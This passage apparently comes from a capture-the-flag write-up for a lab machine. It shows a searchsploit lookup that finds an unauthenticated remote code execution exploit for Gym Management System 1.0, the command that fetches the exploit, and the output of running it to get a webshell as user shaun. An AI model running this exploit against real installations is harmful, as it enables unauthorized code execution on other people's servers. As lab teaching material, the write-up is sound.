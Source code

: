 [![image-20200719145510366](https://0xdfimages.gitlab.io/img/image-20200719145510366.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200719145510366.png)

#### Exploit

A quick search in `searchsploit` shows there’s an unauthenticated RCE vulnerability in the software:

```

root@kali# searchsploit gym management
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - Unauthenticated Remote Code Execution    | php/webapps/48506.py
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

## Shell as shaun

### POC Shell

I’ll grab a copy of the exploit using `searchploit -m php/webapps/48506.py` (and I like to rename it something more descriptive, like `gym_management_rce.py`). I took a look at the script, and it looks like it bypasses filters to upload a webshell, and then runs an infinite loop getting commands from the user, submitting them to the webshell, parsing the results, and printing them.

It uses `print "string"` syntax, so it must be legacy Python. Still, the script works pretty well, at least to get a foothold:

```

root@kali# python gym_management_rce.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun

C:\xampp\htdocs\gym\upload>

```
